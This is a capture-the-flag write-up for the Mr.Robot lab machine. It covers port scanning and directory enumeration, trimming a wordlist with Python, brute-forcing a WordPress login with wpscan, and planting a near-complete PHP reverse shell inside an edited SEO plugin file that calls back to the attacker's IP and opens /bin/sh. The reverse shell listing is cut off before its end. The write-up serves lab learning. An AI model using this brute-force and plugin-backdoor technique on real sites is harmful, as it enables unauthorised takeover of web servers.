







Hello friend, welcome to my Mr.Robot WriteUp! Mr.Robot is one of the best shows i have ever watched. In this writeup i am gonna show you how did i solve this ctf. So first we start with the enumeration with rustscan and nmap:
┌─[root@parrot]─[/home/parrot]
└──╼ #rustscan -a 10.10.240.142
.----. .-. .-. .----..---. .----. .---. .--. .-. .-.
| {} }| { } |{ {__ {_ _}{ {__ / ___} / {} \ | `| |
| .-. \| {_} |.-._} } | | .-._} }\ }/ /\ \| |\ |
`-' `-'`-----'`----' `-' `----' `---' `-' `-'`-' `-'
The Modern Day Port Scanner.
________________________________________
: http://discord.skerritt.blog :
: https://github.com/RustScan/RustScan :
--------------------------------------
Scanning ports like it's my full-time job. Wait, it is.
[~] The config file is expected to be at "/root/.rustscan.toml"
[!] File limit is lower than default batch size. Consider upping with --ulimit. May cause harm to sensitive servers
[!] Your file limit is very small, which negatively impacts RustScan's speed. Use the Docker image, or up the Ulimit with '--ulimit 5000'.
Open 10.10.240.142:80
Open 10.10.240.142:443
[~] Starting Script(s)
[~] Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-07 00:31 +03
Initiating Ping Scan at 00:31
Scanning 10.10.240.142 [4 ports]
Completed Ping Scan at 00:31, 1.42s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 00:31
Completed Parallel DNS resolution of 1 host. at 00:31, 2.18s elapsed
DNS resolution of 1 IPs took 2.18s. Mode: Async [#: 1, OK: 0, NX: 1, DR: 0, SF: 0, TR: 1, CN: 0]
Initiating SYN Stealth Scan at 00:31
Scanning 10.10.240.142 [2 ports]
Discovered open port 443/tcp on 10.10.240.142
Discovered open port 80/tcp on 10.10.240.142
Completed SYN Stealth Scan at 00:31, 2.62s elapsed (2 total ports)
Nmap scan report for 10.10.240.142
Host is up, received echo-reply ttl 60 (1.7s latency).
Scanned at 2024-05-07 00:31:17 +03 for 2s
PORT STATE SERVICE REASON
80/tcp open http syn-ack ttl 60
443/tcp open https syn-ack ttl 60
Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 6.31 seconds
Raw packets sent: 6 (240B) | Rcvd: 128 (29.816KB)
┌─[root@parrot]─[/home/parrot]
└──╼ #nmap -sC -sV -A -Pn -p 80,443 10.10.240.142
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-07 00:36 +03
Nmap scan report for 10.10.240.142
Host is up (0.49s latency).
Not shown: 997 filtered tcp ports (no-response)
PORT STATE SERVICE VERSION
80/tcp open http Apache httpd
|_http-server-header: Apache
|_http-title: Site doesn't have a title (text/html).
443/tcp open ssl/http Apache httpd
| ssl-cert: Subject: commonName=www.example.com
| Not valid before: 2015-09-16T10:45:03
|_Not valid after: 2025-09-13T10:45:03
|_http-server-header: Apache
|_http-title: Site doesn't have a title (text/html).
Aggressive OS guesses: Linux 3.10 - 3.13 (89%), Linux 5.4 (89%), Linux 3.10 - 4.11 (88%), Linux 3.13 (88%), Linux 3.13 or 4.2 (88%), Linux 3.2 - 3.8 (88%), Linux 4.2 (88%), Linux 4.4 (88%), Linux 3.12 (87%), Linux 3.16 (87%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 5 hops
TRACEROUTE (using port 22/tcp)
HOP RTT ADDRESS
1 505.89 ms 10.17.0.1
2 ... 4
5 760.23 ms 10.10.240.142
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 163.35 seconds
So we see only two ports are open and with this services and the versions we cant do something useful. We keep enumeration on port 80 with gobuster:
┌─[root@parrot]─[/home/parrot]
└──╼ #gobuster dir -u http://10.10.240.142 -w common.txt -x php,html,txt,old,cgi
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url: http://10.10.240.142
[+] Method: GET
[+] Threads: 10
[+] Wordlist: common.txt
[+] Negative Status codes: 404
[+] User Agent: gobuster/3.6
[+] Extensions: php,html,txt,old,cgi
[+] Timeout: 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.html (Status: 403) [Size: 214]
/.hta (Status: 403) [Size: 213]
/.hta.txt (Status: 403) [Size: 217]
/.hta.old (Status: 403) [Size: 217]
/.hta.cgi (Status: 403) [Size: 217]
/.hta.php (Status: 403) [Size: 217]
/.hta.html (Status: 403) [Size: 218]
/.htaccess (Status: 403) [Size: 218]
/.htaccess.html (Status: 403) [Size: 223]
/.htaccess.php (Status: 403) [Size: 222]
/.htaccess.txt (Status: 403) [Size: 222]
/.htaccess.old (Status: 403) [Size: 222]
/.htaccess.cgi (Status: 403) [Size: 222]
/.htpasswd (Status: 403) [Size: 218]
/.htpasswd.txt (Status: 403) [Size: 222]
/.htpasswd.old (Status: 403) [Size: 222]
/.htpasswd.cgi (Status: 403) [Size: 222]
/.htpasswd.php (Status: 403) [Size: 222]
/.htpasswd.html (Status: 403) [Size: 223]
Progress: 709 / 27690 (2.56%)[ERROR] context deadline exceeded (Client.Timeout or context cancellation while reading body)
[ERROR] context deadline exceeded (Client.Timeout or context cancellation while reading body)
/0 (Status: 301) [Size: 0] [--> http://10.10.240.142/0/]
/admin (Status: 301) [Size: 235] [--> http://10.10.240.142/admin/]
/atom (Status: 301) [Size: 0] [--> http://10.10.240.142/feed/atom/]
/audio (Status: 301) [Size: 235] [--> http://10.10.240.142/audio/]
/blog (Status: 301) [Size: 234] [--> http://10.10.240.142/blog/]
/cgi-bin/.html (Status: 403) [Size: 222]
/css (Status: 301) [Size: 233] [--> http://10.10.240.142/css/]
/dashboard (Status: 302) [Size: 0] [--> http://10.10.240.142/wp-admin/]
/favicon.ico (Status: 200) [Size: 0]
/feed (Status: 301) [Size: 0] [--> http://10.10.240.142/feed/]
/image (Status: 301) [Size: 0] [--> http://10.10.240.142/image/]
/Image (Status: 301) [Size: 0] [--> http://10.10.240.142/Image/]
/images (Status: 301) [Size: 236] [--> http://10.10.240.142/images/]
/index.php (Status: 301) [Size: 0] [--> http://10.10.240.142/]
/index.html (Status: 200) [Size: 1188]
/index.html (Status: 200) [Size: 1188]
/index.php (Status: 301) [Size: 0] [--> http://10.10.240.142/]
Progress: 12692 / 27690 (45.84%)[ERROR] context deadline exceeded (Client.Timeout or context cancellation while reading body)
/js (Status: 301) [Size: 232] [--> http://10.10.240.142/js/]
/license (Status: 200) [Size: 309]
/license.txt (Status: 200) [Size: 309]
/login (Status: 302) [Size: 0] [--> http://10.10.240.142/wp-login.php]
/page1 (Status: 301) [Size: 0] [--> http://10.10.240.142/]
/phpmyadmin (Status: 403) [Size: 94]
/rdf (Status: 301) [Size: 0] [--> http://10.10.240.142/feed/rdf/]
/readme (Status: 200) [Size: 64]
/readme.html (Status: 200) [Size: 64]
/robots (Status: 200) [Size: 41]
/robots.txt (Status: 200) [Size: 41]
/robots.txt (Status: 200) [Size: 41]
/rss (Status: 301) [Size: 0] [--> http://10.10.240.142/feed/]
/rss2 (Status: 301) [Size: 0] [--> http://10.10.240.142/feed/]
/sitemap (Status: 200) [Size: 0]
/sitemap.xml (Status: 200) [Size: 0]
/video (Status: 301) [Size: 235] [--> http://10.10.240.142/video/]
/wp-admin (Status: 301) [Size: 238] [--> http://10.10.240.142/wp-admin/]
/wp-app.php (Status: 403) [Size: 0]
/wp-atom.php (Status: 301) [Size: 0] [--> http://10.10.240.142/feed/atom/]
/wp-commentsrss2.php (Status: 301) [Size: 0] [--> http://10.10.240.142/comments/feed/]
/wp-config.php (Status: 200) [Size: 0]
/wp-config (Status: 200) [Size: 0]
/wp-content (Status: 301) [Size: 240] [--> http://10.10.240.142/wp-content/]
/wp-cron.php (Status: 200) [Size: 0]
/wp-cron (Status: 200) [Size: 0]
/wp-feed.php (Status: 301) [Size: 0] [--> http://10.10.240.142/feed/]
/wp-includes (Status: 301) [Size: 241] [--> http://10.10.240.142/wp-includes/]
/wp-links-opml (Status: 200) [Size: 227]
/wp-load (Status: 200) [Size: 0]
/wp-links-opml.php (Status: 200) [Size: 227]
/wp-load.php (Status: 200) [Size: 0]
/wp-login (Status: 200) [Size: 2671]
/wp-login.php (Status: 200) [Size: 2671]
/wp-mail (Status: 500) [Size: 3064]
/wp-mail.php (Status: 500) [Size: 3025]
/wp-rdf.php (Status: 301) [Size: 0] [--> http://10.10.240.142/feed/rdf/]
/wp-register.php (Status: 301) [Size: 0] [--> http://10.10.240.142/wp-login.php?action=register]
/wp-rss.php (Status: 301) [Size: 0] [--> http://10.10.240.142/feed/]
/wp-rss2.php (Status: 301) [Size: 0] [--> http://10.10.240.142/feed/]
/wp-settings (Status: 500) [Size: 0]
/wp-settings.php (Status: 500) [Size: 0]
/wp-signup (Status: 302) [Size: 0] [--> http://10.10.240.142/wp-login.php?action=register]
/wp-signup.php (Status: 302) [Size: 0] [--> http://10.10.240.142/wp-login.php?action=register]
/xmlrpc.php (Status: 405) [Size: 42]
/xmlrpc (Status: 405) [Size: 42]
/xmlrpc.php (Status: 405) [Size: 42]
Progress: 27684 / 27690 (99.98%)
===============================================================
Finished
===============================================================
And then we see some directories. When we go to the website a cool terminal welcomes us:

when we use the commands we dont get something useful. So we decide to look at the robots.txt file and there is really important infos:

in the http://10.10.240.142/key-1-of-3.txt we get our first flag. And in the same location fsocity.dic file is a very long wordlist when we look at the second flag hint it says: There's something fishy about this wordlist... Why is it so long? so when we look inside of the file there is so much words repeates and most of them is very short. So we should find the login page, username and we should make fsocity.dic file shorter. In gobuster we saw /login directory when we go the page we see its a wordpress login page:

So there is a useful flaw in the site it says the invalid usernames. We see there is no user named admin. When we think we are in the Mr.Robot Ctf if we try elliot as username we receive a different message:

So now we should make our fscotiy.dic wordlist shorter.I think our friend elliot doesn't use passwords shorter than six digits. I coded a python program that finds words longer than five digits and writes this words only once to a new wordlist. Program's source code is:
def main():
input_file = 'fsocity.dic'
output_file = 'new.txt'
filtered_words = set()
with open(input_file, 'r') as file:
for line in file:
word = line.strip()
if len(word) > 5:
filtered_words.add(word)
with open(output_file, 'w') as file:
for word in filtered_words:
file.write(word + '\n')
if __name__ == "__main__":
main()
This program makes a shorter wordlist called new.txt . But we need a another tool to start bruteforce attack on login page. This site is built with wordpress. So we can use the tool named wpscan if you dont have it you can install it with this commands:
sudo apt-get updatesudo apt install ruby ruby-dev sudo apt install gemsudo apt install build-essential libcurl4-openssl-dev libxml2 libxml2-dev libxslt1-dev ruby-dev libgmp-dev zlib1g-devsudo gem install wpscanFor to start bruteforce attack we can use this command:
wpscan --url http://10.10.240.142/wp-login.php -U elliot -P /home/parrot/new.txtWhen attack finished we learn what is elliots password:

When we login with elliot's informations we see elliot is a admin and can edit the plugins:

To get a reverse shell first we start a listener in our attacker box:
nc -lvnp 1234After some search i found a way to get a reverse shell. First we activate All In One SEO Pack plugin after that we edit it. I used https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php . But if we just paste this reverse shell into the plugin it says Invalid Header. So we change it like this:
<?php
/*
Plugin Name: All In One SEO Pack
Plugin URI: http://semperfiwebdesign.com
Description: Out-of-the-box SEO for your WordPress blog. <a href="admin.php?page=all-in-one-seo-pack/aioseop_class.php">Options configuration panel</a> | <a href="http://semperplugins.com/plugins/all-in-one-seo-pack-pro-version/?loc=plugins" target="_blank">Upgrade to Pro Version</a> | <a href="https://www.paypal.com/cgi-bin/webscr?cmd=_donations&business=mrtorbert%40gmail%2ecom&item_name=All%20In%20One%20SEO%20Pack&item_number=Support%20Open%20Source&no_shipping=0&no_note=1&tax=0¤cy_code=USD&lc=US&bn=PP%2dDonationsBF&charset=UTF%2d8">Donate</a> | <a href="http://semperplugins.com/support/" >Support</a> | <a href="https://www.amazon.com/wishlist/1NFQ133FNCOOA/ref=wl_web" target="_blank" title="Amazon Wish List">Amazon Wishlist</a>
Version: 2.2.5.1
Author: Michael Torbert
Author URI: http://michaeltorbert.com
*/
/*
Copyright (C) 2008-2014 Michael Torbert, semperfiwebdesign.com (michael AT semperfiwebdesign DOT com)
Original code by uberdose of uberdose.com
This program is free software; you can redistribute it and/or modify
it under the terms of the GNU General Public License as published by
the Free Software Foundation; either version 3 of the License, or
(at your option) any later version.
This program is distributed in the hope that it will be useful,
but WITHOUT ANY WARRANTY; without even the implied warranty of
MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE. See the
GNU General Public License for more details.
You should have received a copy of the GNU General Public License
along with this program. If not, see <http://www.gnu.org/licenses/>.
*/
//register_activation_hook(__FILE__,'aioseop_activate_pl');
/**
* @package All-in-One-SEO-Pack
* @version 2.2.5.1
*/
// php-reverse-shell - A Reverse Shell implementation in PHP
// Copyright (C) 2007 pentestmonkey@pentestmonkey.net
//
// This tool may be used for legal purposes only. Users take full responsibility
// for any actions performed using this tool. The author accepts no liability
// for damage caused by this tool. If these terms are not acceptable to you, then
// do not use this tool.
//
// In all other respects the GPL version 2 applies:
//
// This program is free software; you can redistribute it and/or modify
// it under the terms of the GNU General Public License version 2 as
// published by the Free Software Foundation.
//
// This program is distributed in the hope that it will be useful,
// but WITHOUT ANY WARRANTY; without even the implied warranty of
// MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE. See the
// GNU General Public License for more details.
//
// You should have received a copy of the GNU General Public License along
// with this program; if not, write to the Free Software Foundation, Inc.,
// 51 Franklin Street, Fifth Floor, Boston, MA 02110-1301 USA.
//
// This tool may be used for legal purposes only. Users take full responsibility
// for any actions performed using this tool. If these terms are not acceptable to
// you, then do not use this tool.
//
// You are encouraged to send comments, improvements or suggestions to
// me at pentestmonkey@pentestmonkey.net
//
// Description
// -----------
// This script will make an outbound TCP connection to a hardcoded IP and port.
// The recipient will be given a shell running as the current user (apache normally).
//
// Limitations
// -----------
// proc_open and stream_set_blocking require PHP version 4.3+, or 5+
// Use of stream_select() on file descriptors returned by proc_open() will fail and return FALSE under Windows.
// Some compile-time options are needed for daemonisation (like pcntl, posix). These are rarely available.
//
// Usage
// -----
// See http://pentestmonkey.net/tools/php-reverse-shell if you get stuck.
set_time_limit (0);
$VERSION = "1.0";
$ip = '10.17.51.16'; // CHANGE THIS
$port = 1234; // CHANGE THIS
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;
//
// Daemonise ourself if possible to avoid zombies later
//
// pcntl_fork is hardly ever available, but will allow us to daemonise
// our php process and avoid zombies. Worth a try...
if (function_exists('pcntl_fork')) {
// Fork and have the parent process exit
$pid = pcntl_fork();
if ($pid == -1) {
printit("ERROR: Can't fork");
exit(1);
}
if ($pid) {
exit(0); // Parent exits
}
// Make the current process a session leader
// Will only succeed if we forked
if (posix_setsid() == -1) {
printit("Error: Can't setsid()");
exit(1);
}
$daemon = 1;
} else {
printit("WARNING: Failed to daemonise. This is quite common and not fatal.");
}
// Change to a safe directory
chdir("/");
// Remove any umask we inherited
umask(0);
//
// Do the reverse shell...
//
// Open reverse connection
$sock = fsockopen($ip, $port, $errno, $errstr, 30);
if (!$sock) {
printit("$errstr ($errno)");
exit(1);
}
// Spawn shell process
$descriptorspec = array(
0 => array("pipe", "r"), // stdin is a pipe that the child will read from
1 => array("pipe", "w"), // stdout is a pipe that the child will write to
2 => array("pipe", "w") // stderr is a pipe that the child will write to
);
$process = proc_open($shell, $descriptorspec, $pipes);
if (!is_resource($process)) {
printit("ERROR: Can't spawn shell");
exit(1);
}
// Set everything to non-blocking
// Reason: Occsionally reads will block, even though stream_select tells us they won't
stream_set_blocking($pipes[0], 0);
stream_set_blocking($pipes[1], 0);
stream_set_blocking($pipes[2], 0);
stream_set_blocking($sock, 0);
printit("Successfully opened reverse shell to $ip:$port");
while (1) {
// Check for end of TCP connection
if (feof($sock)) {
printit("ERROR: Shell connection terminated");
break;
}
// Check for end of STDOUT
if (feof($pipes[1])) {
printit("ERROR: Shell process terminated");
break;
}
// Wait until a command is end down $sock, or some
// command output is available on STDOUT or STDERR
$read_a = array($sock, $pipes[1], $pipes[2]);
$num_changed_sockets = stream_select($read_a, $write_a, $error_a, null);
// If we can read from the TCP socket, send
// data to process's STDIN
if (in_array($sock, $read_a)) {
if ($debug) printit("SOCK READ");
$input = fread($sock, $chunk_size);
if ($debug) printit("SOCK: $input");
fwrite($pipes[0], $input);
}
// If we can read from the process's STDOUT
// send data down tcp connection
if (in_array($pipes[1], $read_a)) {
if ($debug) printit("STDOUT READ");
$input = fread($pipes[1], $chunk_size);
if ($debug) printit("STDOUT: $input");
fwrite($sock, $input);
}
// If we can read from the process's STDERR
// send data down tcp connection
if (in_array($pipes[2], $read_a)) {
if ($debug) printit("STDERR READ");
$input = fread($pipes[2], $chunk_size);
if ($debug) printit("STDERR: $input");
fwrite($sock, $input);
}
}
